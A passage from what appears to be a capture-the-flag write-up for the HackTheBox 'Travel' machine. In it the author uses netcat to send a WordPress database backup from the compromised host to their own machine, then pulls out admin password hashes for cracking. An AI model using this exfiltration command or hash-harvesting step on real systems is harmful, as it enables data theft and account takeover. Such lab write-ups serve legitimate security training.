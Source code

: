 Seems like we have a huge backup of the SQL-DB. Let us transfer the file to our system and enumerate it.

```bash
www-data@blog:/opt/wordpress$ cat backup-13-04-2020.sql | nc 10.10.14.2 1234
root@darkness:~# nc -lvnp 1234 > sql.bak
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.189.
Ncat: Connection from 10.10.10.189:50956.
```

We receive the file and can now take a look at it.

### Finding credentials in the WordPress backup

Let us manually look through the file and see if we find anything interesting...

```bash
root@darkness:~# cat sql.bak | tail -n 20
--
-- Dumping data for table `wp_users`
--

LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-04-13 13:39:31
```

Right at the end of the file we can find the `wp_users` table, which contains the encrypted passwords of the `admin` and `lynik-admin` user. Let us try to crack the hashes next.

### Cracking the WordPress hashes

```bash
root@darkness:~# cat wp.hashes 
admin:$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/
lynik-admin:$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.
```
